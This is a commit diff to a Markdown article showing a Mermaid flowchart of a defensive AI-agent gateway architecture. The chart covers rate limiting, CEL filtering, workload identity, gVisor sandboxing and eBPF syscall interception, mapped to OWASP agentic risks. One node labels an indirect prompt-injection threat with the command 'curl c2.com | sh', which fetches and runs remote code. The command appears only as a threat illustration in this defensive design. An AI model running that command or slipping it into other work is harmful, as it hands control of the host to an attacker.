

Before and after one commit to vesviet/vesviet: the first of 3 diagrams in content/radar/2026-08/radar-2026-08-21-owasp-nist-ai-agent-gateway.md, drawn with Mermaid (forest theme). The commit also changed other lines of this file and 50 other files, not shown here.

````diff
--- a/content/radar/2026-08/radar-2026-08-21-owasp-nist-ai-agent-gateway.md
+++ b/content/radar/2026-08/radar-2026-08-21-owasp-nist-ai-agent-gateway.md
@@ -35,42 +39,42 @@
 ```mermaid
 flowchart TD
     subgraph ExternalBoundary ["External Input & Adversarial Triggers"]
         UserInput["Legitimate User Prompt"]
         MaliciousPayload["Indirect Injection Payload ('curl c2.com | sh')"]
     end
 
-    subgraph L7Gateway ["Kubernetes Gateway API L7 (Envoy AI Gateway)"]
-        RateLimit["Token Bucket & Cost Rate Limiting (Anti-Denial of Wallet - ASI08)"]
-        CELFilter["CEL Expression Guardrails (Tool Call Parameter Sanitization - ASI02/ASI05)"]
+    subgraph L7Gateway ["Kubernetes Gateway API L7 (Envoy AI Gateway + Go ExtProc)"]
+        RateLimit["Redis 7.4 Token & Action Rate Governor (Anti-Denial of Wallet - ASI08)"]
+        CELFilter["CEL & JSON Schema Firewall (Tool Call Parameter Sanitization - ASI02/ASI05)"]
         AuthAttestation["SPIFFE/SPIRE SVID & OAuth 2.1 Scope Verification (ASI03/ASI07)"]
     end
 
     subgraph SandboxRuntime ["Isolated Agent Execution Pod (Namespace: ai-agent-sandbox)"]
         AgentPod["Autonomous AI Agent Worker Pod"]
         GVisorSandbox["gVisor (runsc) User-Space Kernel"]
     end
 
     subgraph KernelDefense ["Host Linux Kernel Layer"]
         TetragonProbe["Cilium Tetragon eBPF TracingPolicy Engine"]
         SyscallInterception["Interception: sys_enter_execve | sys_enter_openat | tcp_connect"]
         KernelSigkill["Immediate Threat Mitigation: SIGKILL (< 15µs)"]
     end
 
     subgraph EnterpriseBackends ["Enterprise Microservices & State"]
         StatelessMCP["Stateless MCP 2.0 Tool Server"]
         PostgreSQLState["PostgreSQL / Redis Encrypted State Store"]
     end
 
     UserInput --> RateLimit
     MaliciousPayload --> RateLimit
     RateLimit --> CELFilter
     CELFilter --> AuthAttestation
     AuthAttestation --> AgentPod
 
     AgentPod --> GVisorSandbox
     GVisorSandbox -->|"Syscall Trigger"| SyscallInterception
     SyscallInterception --> TetragonProbe
     TetragonProbe -->|"Unauthorized Binary"| KernelSigkill
     TetragonProbe -->|"Sanitized Tool Call"| StatelessMCP
     StatelessMCP --> PostgreSQLState
 ```
````
